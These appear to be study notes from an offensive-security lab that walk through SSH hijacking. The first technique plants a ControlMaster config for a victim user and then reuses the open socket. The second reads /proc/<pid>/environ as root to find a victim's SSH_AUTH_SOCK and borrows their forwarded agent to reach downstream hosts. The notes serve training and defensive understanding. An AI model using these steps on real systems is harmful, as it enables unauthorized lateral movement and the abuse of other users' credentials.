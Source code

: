 :) use keys lol

# SSH Hijacking with ControlMaster

ControlMaster is a feature that enables sharing of multiple SSH sessions over a single network connection. This functionality can be enabled for a given user by editing their local SSH configuration file (~/.ssh/config).

This file can be created or modified by users with elevated privileges or write access to the user’s home folder. By doing so, a malicious actor can create an attack vector when there wasn’t one originally, by enabling ControlMaster functionality for an unwitting user.

create the `~/.ssh/config` file,
```
Host *
ControlPath ~/.ssh/controlmaster/%r@%h:%p
ControlMaster auto
ControlPersist 10m
```

The ControlPath entry in our example specifies that the ControlMaster socket file should be placed in ~/.ssh/controlmaster/ with the name `<remoteusername@<targethost>:<port>`. This assumes that the specified controlmaster folder actually exists.

The ControlMaster line identifies that any new connections will attempt to use existing ControlMaster sockets when possible. When those are unavailable, it will start a new connection.

ControlPersist can either be set to “yes” or to a specified time. If it is set to “yes”, the socket stays open indefinitely. Alternatively, it will accept new connections for a specified amount of time after the last connection has terminated. In the above configuration, the socket will remain open for 10 minutes after the last connection and then it will close.

Next, to simulate our victim connecting to a downstream server, we’ll SSH to the controller VM as the legitimate offsec user. We’ll then SSH from the controller VM to the linuxvictim VM in the same session.

Once the connection is established, we’ll move back to the offsec attacker session. We should be able to find a socket file in ~/.ssh/controlmaster/ on the controller VM called offsec@linuxvictim:22.
```bash
offsec@controller:~$ ls -al ~/.ssh/controlmaster/
total 8
drwxrwxr-x 2 offsec offsec 4096 May 13 13:55 .
drwx------ 3 offsec offsec 4096 May 13 13:55 ..
srw------- 1 offsec offsec 0 May 13 13:55 offsec@linuxvictim:22
```

We can now use this open socket as an attacker to piggyback off of it into linuxvictim without a password:
```bash
offsec@controller:~$ ssh offsec@linuxvictim
Last login: Wed May 13 16:11:26 2020 from 192.168.120.40
offsec@linuxvictim:~$
```

# SSH Hijacking using SSH-Agent and SSH-Agent Forwarding

SSH-Agent is a utility that keeps track of a user’s private keys and allows them to be used without having to repeat their passphrases on every connection.

SSH agent forwarding is a mechanism that allows a user to use the SSH-Agent on an intermediate server as if it were their own local agent on their originating machine. This is useful in situations where a user might need to ssh from an intermediate host into another network segment, which can’t be directly accessed from the originating machine. It has the advantage of not requiring the private key to be stored on the intermediate server and the user does not need to enter their passphrase more than once.

# Setup

To use an SSH-Agent, there needs to be an SSH keypair set up on the originating machine. This can be done with ssh-keygen as we covered earlier, ensuring we set a passphrase.

For our SSH connections to work using SSH-Agent forwarding, we need to have our public key installed on both the intermediate server and the destination server. In our case, the intermediate server will be the controller machine and the destination server will be linuxvictim. We can copy our key to both of them using the ssh-copy-id command from our Kali VM, specifying our public key with the -i flag.
```bash
kali@kali:~$ ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@controller
kali@kali:~$ ssh-copy-id -i ~/.ssh/id_rsa.pub offsec@linuxvictim
```

Additionally, we need to set our local SSH config file in ~/.ssh/config on our Kali VM to have the following line.
```
ForwardAgent yes
```

Next, on the intermediate server, which in our case is the controller, we need to have the following line set in /etc/ssh/sshd_config.
```
AllowAgentForwarding yes
```

We can now add our keys to the SSH-Agent on our Kali VM using ssh-add. If we just want to use the key that is in the default key location (~/.ssh/id_rsa), we don’t need to specify any parameters. Alternatively, we can add the path to the key file we want to use immediately after the command. In our case, since our key is in the default location, we can just run ssh-add.
```
kali@kali:~$ ssh-add
Enter passphrase for /home/kali/.ssh/id_rsa:
Identity added: /home/kali/.ssh/id_rsa (kali@kali)
```

Now just use SSH to hop from server to server:
```
kali@kali:~$ ssh offsec@controller
Enter passphrase for key '/home/kali/.ssh/id_rsa':

offsec@controller:~$ ssh offsec@linuxvictim
offsec@linuxvictim:~$
```

Only enter the passphrase for the intermediate server so that SSH-Agent keeps track of it

With our previous ControlMaster exploitation, we were restricted to connecting to downstream servers that the user had an existing open connection to. With SSH agent forwarding, we don’t have this restriction. Since the intermediate system acts as if we already have the user’s SSH keys available, we can SSH to any downstream server the compromised user’s private key has access to.

To exploit this, the compromised user needs to have an active SSH connection to the intermediate server. We’ll simulate this by closing the previous shell to the linuxvictim box opened from the controller machine, but we’ll leave the connection to the intermediate server open. This will act as the victim SSH offsec user session. Next, to simulate the attacker connection, we’ll open a shell to the intermediate server using password authentication as the offsec user, and from there, we will ssh to the linuxvictim machine.

If we are root, we can steal the open active socket:
```
root@controller:~# cat /proc/16381/environ
LANG=en_US.UTF-
8USER=offsecLOGNAME=offsecHOME=/home/offsecPATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/gamesMAIL=/var/mail/offsecSHELL=/bin/bash
SSH_CLIENT=192.168.119.120 49916 22SSH_CONNECTION=192.168.119.120 49916 192.168.120.40
22SSH_TTY=/dev/pts/1TERM=xterm-
256colorXDG_SESSION_ID=29XDG_RUNTIME_DIR=/run/user/1000SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380
root@controller:~#
```

Once locating it, we place it as an environment variable:
```
root@controller:~# SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh-add -l
3072 SHA256:6cyHlr9fISx9kcgR9+1crO1Hnc+nVw0mnmQ/Em5KSfo kali@kali (RSA)
root@controller:~# SSH_AUTH_SOCK=/tmp/ssh-7OgTFiQJhL/agent.16380 ssh
offsec@linuxvictim
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-20-generic x86_64)
...
Last login: Thu Jul 30 11:14:26 2020 from 192.168.120.40
offsec@linuxvictim:~$
```

